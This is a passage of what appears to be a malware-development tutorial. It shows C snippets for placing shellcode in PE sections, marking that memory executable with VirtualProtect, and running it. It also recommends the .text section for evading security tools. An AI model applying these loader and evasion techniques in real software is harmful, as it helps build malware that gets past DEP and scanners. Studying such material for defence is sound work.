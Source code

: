 **Execution Requirements**:
```c
// Must add execute permission
VirtualProtect(Data_RawData, sizeof(Data_RawData), 
               PAGE_EXECUTE_READWRITE, &oldProtect);
```

### .rdata Section Approach
```c
// const qualifier - goes to .rdata
const unsigned char Rdata_RawData[] = { /* shellcode */ };
```

**Characteristics**:
- **Default Permissions**: R-- (Read only)
- **Runtime Behavior**: Cannot be modified
- **Access Violations**: Any write attempt crashes
- **Use Case**: Static payloads, smaller file size

### .text Section Approach (Advanced)
```c
#pragma section(".text")
__declspec(allocate(".text")) const unsigned char Text_RawData[] = { /* shellcode */ };
```

**Characteristics**:
- **Default Permissions**: R-X (Read, Execute)
- **Stealthier**: Code in code section looks normal
- **Still Needs**: VirtualProtect for write access (RWX)
- **Use Case**: Evading security tools that only scan data sections

## 5. Practical Execution Examples

### Basic Execution Attempt (Will Fail)
```c
int main() {
    printf("[i] Shellcode at: 0x%p\n", Data_RawData);
    getchar();
    return 0;  // Never executes shellcode!
}
```
**Result**: Program exits normally, shellcode never runs

### DEP/NX Protection Error
```c
// Trying to execute without changing permissions
void (*shellcode)() = (void(*)())Data_RawData;
shellcode();  // Access Violation 0xC0000005!
```
**Result**: Crash - Data Execution Prevention blocks execution

### Correct Execution Method
```c
int main() {
    DWORD oldProtect;
    
    // 1. Make memory executable
    if (!VirtualProtect(Data_RawData, sizeof(Data_RawData), 
                        PAGE_EXECUTE_READWRITE, &oldProtect)) {
        printf("[-] VirtualProtect failed: %d\n", GetLastError());
        return 1;
    }
    
    // 2. Execute shellcode
    printf("[+] Executing shellcode...\n");
```